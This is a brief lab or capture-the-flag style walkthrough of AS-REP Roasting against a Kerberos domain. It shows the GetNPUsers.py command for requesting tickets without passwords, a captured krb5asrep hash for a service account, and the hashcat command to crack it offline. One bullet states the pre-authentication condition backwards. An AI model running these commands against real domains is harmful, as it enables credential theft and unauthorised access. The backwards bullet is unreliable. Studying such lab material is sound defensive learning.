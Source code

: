 # Exploiting Kerberos
- Exploit a feature within Kerberos with an attack method called AS-REP Roasting 
- AS-REP Roasting occurs when a user account has `does not require pre-authentication` set
- User account `does not` need to provide valid identification before requesting a Kerberos ticket on the specified user account

## Retrieving Kerberos Tickets
- GetNPUsers script
- Used to retrievwe domain users who do not have `do not require Kerberos pre-authentication` set 
- Ask for TGT without knowing passwords

<pre>GetNPUsers.py -no-pass -usersfile ./users.txt -dc-ip 10.10.155.48 spooky.local/</pre>

- Returns the user that can query a ticket without a password

<pre>$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:408ee4a3e91ec877b931d35c56364c77$63dc9e093d6f3ddfd0074033786ed4d4d6e5f3e9f27be7f98866c0c91c4271c6c8a721eafa9e343a2b9638da64fe71d7563c31e51e6aac0686ba9025ab8ff2d41b8b24f38888cd803c70568744a12daa95cca16b73fa6bc5b20f1fb697b29fd1fe39fa0553ae07ad7e6e2f5232e306ee2abf3ee2ba8ebc704bc96f0d60cd245f96f4caa7c20c3a673fba2b25a384593b01e334560348a146d9168e1fc594b8c59e11382193bd2b3f1c421f9d5fdc61167c8f3bfa18d60fc6fca79923c16b707927719330363b593c28ccc0c7dd2c5e7696b43d45a4bc016341f773805c53f51d2b6ae4a0fa3c3280a18a9d53d9b5fd08337c</pre>

- Determine hash type: https://hashcat.net/wiki/doku.php?id=example_hashes&source=post_page-----96f926eca20f--------------------------------  
- Hash mode: 18200
- Hash starts with ($krb5asrep)

## Crack hash
Password list: https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
<pre>hashcat -m 18200 hash.txt passwordlist.txt</pre>